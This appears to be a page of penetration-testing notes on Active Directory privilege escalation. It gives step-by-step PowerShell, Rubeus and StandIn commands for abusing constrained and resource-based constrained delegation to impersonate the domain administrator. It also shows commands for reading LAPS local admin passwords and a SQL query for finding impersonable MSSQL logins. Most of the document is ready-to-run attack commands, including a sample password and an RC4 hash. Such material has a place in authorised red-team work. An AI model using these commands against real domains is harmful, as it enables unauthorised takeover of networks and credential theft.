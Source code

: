Requirements: Machine or user account with msds-allowedtodelegateto & TRUSTED_TO_AUTH_FOR_DELEGATION set to a target, e.g. cifs/ms01.example.com
Result: Authenticate as any user against the target (e.g. as DA)
Tools: Rubeus

Here a computer or user has defined what resources it can delegate authtentication to.
Import-Module .\Invoke-Rubeus.ps1
Invoke-Rubeus "asktgt /user:srv01$ /rc4:<hash> /outfile:ticket.kirbi"
Invoke-Rubeus "s4u /impersonateuser:administrator /msdsspn:cifs/srv02 /ticket:ticket.kirbi /altservice:cifs,host,rpcss,http /ptt"

Alternative:
.\Rubeus.exe s4u /user:srv01$ /rc4:<hash> /impersonateuser:Administrator /msdsspn:"cifs/srv02" /altservice:host,rpc,cifs,http /ptt

Resource-based Constrained Delegation

Requirements: Write access to a target computer account (to set msDS-AllowedToActOnBehalfOfOtherIdentity) & ability to create new machine accounts
Result: Authenticate as any user against the target (e.g. as DA)
Tools: PowerMad, PowerView, Rubeus

Here a computer has defined who they trust to delegation auth to them (reverse of constrained delegation).
$pw = ConvertTo-SecureString 'Start123!' -AsPlainText -Force
New-MachineAccount -MachineAccount xct -Password $pw
$ComputerSid = Get-DomainComputer xct -Properties objectsid | Select -Expand objectsid
  
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
  
$machine = Get-DomainComputer <target>
$machine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
 
.\Rubeus.exe s4u /user:xct$ /rc4:<hash of your chosen password> /impersonateuser:administrator /msdsspn:cifs/target /altservice:cifs,host,rpcss,http /ptt

This can also be done via Standin:
.\StandIn.exe --computer xct --make
.\StandIn.exe --computer dc --sid <sid>
.\Rubeus.exe s4u /user:xct /rc4:6dfcb20c87d04f9a4f9605f2413395d4 /impersonateuser:administrator /msdsspn:cifs/dc.example.com /nowrap /ptt

Read LAPS Password

Requirements: Permission to read laps passwords
Result: Local administrator password to a machine that uses LAPS
Tools: Default AD-Module or LAPSToolkit
import-module activedirectory; get-adcomputer -identity "<machine>" -properties  ms-mcs-admpwd

MSSQL

Check if a user can be impersonated:
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
